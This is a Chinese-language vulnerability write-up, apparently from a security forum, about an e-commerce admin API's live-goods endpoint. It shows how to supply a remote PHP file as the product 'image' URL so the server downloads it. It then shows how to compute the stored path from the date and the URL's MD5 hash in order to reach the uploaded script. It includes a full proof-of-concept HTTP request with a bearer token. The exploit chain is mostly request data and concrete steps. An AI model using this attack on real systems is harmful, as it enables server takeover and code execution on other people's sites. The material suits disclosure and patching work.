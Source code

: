 ![document_image_rId7.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a3919b224c68aefe77b081c9a399e995b36a8ad8.png)

完成步骤：`点击添加商品->任意添加商品->生成直播商品`，在点击提交功能时进行抓包。

![document_image_rId8.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-3f996f4dcaab58cf143848cf031aec879328ed1c.png)

原始请求数据包：

![document_image_rId9.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4290c1765c4f954b891354e4ab272726e2c6ef8a.png)

替换其中`image`参数为`http://localhost:19000/help.PHP`并进行发包。可以看到数据包发送后，虽然返回400，实际上已经请求并拉取了`help.PHP`文件。

![document_image_rId10.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-0a027f263536bdbeaf5f931375d01bb4b1f19b0a.png)

POC数据包：

```php
POST /adminapi/live/goods/add HTTP/1.1
Host: localhost:45600
Content-Length: 206
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_goods
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"goods_info":[{"id":4,"image":"http://localhost:19000/help.PHP","store_name":"Apple/苹果iPad mini6 8.3英寸平板电脑 64G-WLAN版 深空灰色","price":"3999.00","cost_price":"3999.00","stock":1600}]}
```

访问 <https://cmd5.com/hash.aspx> 将 URL`http://localhost:19000/help.PHP` 进行 MD5 编码，得到`749aa9192a0f6ff0ed7c34418e6fe97f`

![document_image_rId12.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-c48dc5921e0a4ef8aba44f447c1c8f8c59caf9d0.png)

根据默认文件路径规则构造URL：  
`http://localhost:45600/uploads/attach/{年份}/{月份}/{日号}/{URL的MD5值}.PHP`  
得到：  
`http://localhost:45600/uploads/attach/2023/09/07/749aa9192a0f6ff0ed7c34418e6fe97f.PHP`
